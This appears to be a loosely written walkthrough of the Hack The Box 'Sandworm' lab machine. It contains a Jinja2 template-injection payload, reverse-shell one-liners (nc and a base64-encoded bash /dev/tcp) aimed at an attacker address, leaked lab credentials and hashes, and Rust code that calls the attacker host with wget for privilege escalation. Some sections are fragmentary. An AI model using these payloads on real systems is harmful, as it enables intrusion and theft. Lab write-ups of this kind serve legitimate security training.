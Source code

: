 # #1 Introduction
<img width="692" alt="image" src="https://github.com/Mate0r/app.hackthebock.com/assets/94843357/d90f6781-091a-411d-857d-83aac3e84515">

# #2 nmap

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx sandworm.htb
```

we run an nmap scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -sV -p- sandworm.htb
```

we got these open ports
```bash
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     nginx 1.18.0 (Ubuntu)
443/tcp open  ssl/http nginx 1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# #3 user.txt

## HTTP (port 80)


about                   [Status: 200, Size: 5584, Words: 1147, Lines: 77, Duration: 211ms]
admin                   [Status: 302, Size: 227, Words: 18, Lines: 6, Duration: 81ms]
contact                 [Status: 200, Size: 3543, Words: 772, Lines: 69, Duration: 55ms]
guide                   [Status: 200, Size: 9043, Words: 1771, Lines: 155, Duration: 73ms]
login                   [Status: 200, Size: 4392, Words: 1374, Lines: 83, Duration: 78ms]
logout                  [Status: 302, Size: 229, Words: 18, Lines: 6, Duration: 71ms]
pgp                     [Status: 200, Size: 3187, Words: 9, Lines: 54, Duration: 110ms]
process                 [Status: 405, Size: 153, Words: 16, Lines: 6, Duration: 89ms]
view                    [Status: 302, Size: 225, Words: 18, Lines: 6, Duration: 110ms]


.gpg
.asc
.sig
.key



https://www.wired.co.uk/article/efail-pgp-vulnerability-outlook-thunderbird-smime

https://efail.de/

we can use a ssti (sever side template injection) by using the RealName of the public key generated and verifying signature of message\
by using {{ 7 * 7 }} for example, we can see that the code is executed cause we have a web template engine named jinja2 (in python)\

So to get a reverse shell, we can use this crafted payload:

{{ self.__init__.__globals__.__builtins__.__import__('os').popen('which id').read() }}


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.15.56 6666 >/tmp/f \
en base64 \
cm0gLWYgL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTAuMTUuNTYgNjY2NiA+L3RtcC9mCg== \


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('echo "YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNS41Ni82NjY2IDA+JjEiCg==" | base64 -d | bash').read() }}

we are now atlas\
in app.py file, we found a passphrase : $M1DGu4rD$

in the __init__.py file, we found the sql credentials : \

app.config['SECRET_KEY'] = '91668c1bc67132e3dcfb5b1a3e0c5c21' \
app.config['SQLALCHEMY_DATABASE_URI'] = 'mysql://atlas:GarlicAndOnionZ42@127.0.0.1:3306/SSA'\


to connect to sql since we don't have binaries, we can use python3 and the db module since we now it's available by looking in home/.\

```
drwxrwxr-x 23 atlas atlas  4096 Feb  2  2023 .
drwxrwxr-x  3 atlas atlas  4096 Nov 30  2022 ..
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 backports
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 configparser-5.3.0.dist-info
-rw-rw-r--  1 atlas atlas  1546 Feb  2  2023 configparser.py
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 flask
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask-2.2.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_login
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Flask_Login-0.6.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 flask_sqlalchemy
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 Flask_SQLAlchemy-3.0.3.dist-info
-rw-rw-r--  1 atlas atlas 57134 Nov 30  2022 gnupg.py
drwxrwxr-x  5 atlas atlas  4096 Feb  2  2023 greenlet
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 greenlet-2.0.2.dist-info
drwxrwxr-x  3 atlas atlas  4096 Feb  2  2023 markupsafe
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 MarkupSafe-2.1.2.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 mysqlclient-2.1.1.dist-info
drwxrwxr-x  4 atlas atlas  4096 Feb  2  2023 MySQLdb
drwxrwxr-x  2 atlas atlas  4096 May  4  2023 __pycache__
drwxrwxr-x  2 atlas atlas  4096 Nov 30  2022 python_gnupg-0.4.3.dist-info
drwxrwxr-x 15 atlas atlas  4096 Feb  2  2023 sqlalchemy
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 SQLAlchemy-2.0.1.dist-info
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 typing_extensions-4.4.0.dist-info
-rw-rw-r--  1 atlas atlas 80078 Feb  2  2023 typing_extensions.py
drwxrwxr-x  8 atlas atlas  4096 Feb  2  2023 werkzeug
drwxrwxr-x  2 atlas atlas  4096 Feb  2  2023 Werkzeug-2.2.2.dist-info
```

((b'1', b'Odin', b'pbkdf2:sha256:260000$q0WZMG27Qb6XwVlZ$12154640f87817559bd450925ba3317f93914dc22e2204ac819b90d60018bc1f'),)
((b'2', b'silentobserver', b'pbkdf2:sha256:260000$kGd27QSYRsOtk7Zi$0f52e0aa1686387b54d9ea46b2ac97f9ed030c27aac4895bed89cb3a4e09482d'),)


home/atlas/.config/httpie/sessions/localhost_5000/admin.json
silentobserver:quietLiketheWind22





/sbin/init maybe-ubiquity 
2023/11/15 15:12:11 CMD: UID=0     PID=28613  | /bin/bash /root/Cleanup/clean_c.sh 
2023/11/15 15:12:11 CMD: UID=0     PID=28614  | /bin/rm -r /opt/crates 
2023/11/15 15:12:11 CMD: UID=0     PID=28615  | 
2023/11/15 15:12:11 CMD: UID=0     PID=28616  | /usr/bin/chmod u+s /opt/tipnet/target/debug/tipnet
/usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28636  | /usr/bin/cargo run --offline 
2023/11/15 15:14:01 CMD: UID=1000  PID=28638  | rustc - --crate-name ___ --print=file-names --crate-type bin --crate-type rlib --crate-type dylib --crate-type cdylib --crate-type staticlib --crate-type proc-macro --print=sysroot --print=cfg                                                      
2023/11/15 15:14:01 CMD: UID=1000  PID=28640  | /usr/bin/cargo run --offline 
2023/11/15 15:14:11 CMD: UID=0     PID=28645  | /bin/bash /root/Cleanup/clean_c.sh
/bin/sh -c cd /opt/tipnet && /bin/echo "e" | /bin/sudo -u atlas /usr/bin/cargo run --offline



/opt/crates/logger/src/lib.rs is writable

use std::process::Command;

Command::new("wget").arg("http://10.10.15.56:8000/").output();

Command::new("wget").arg("http://10.10.15.56:8000/").output();

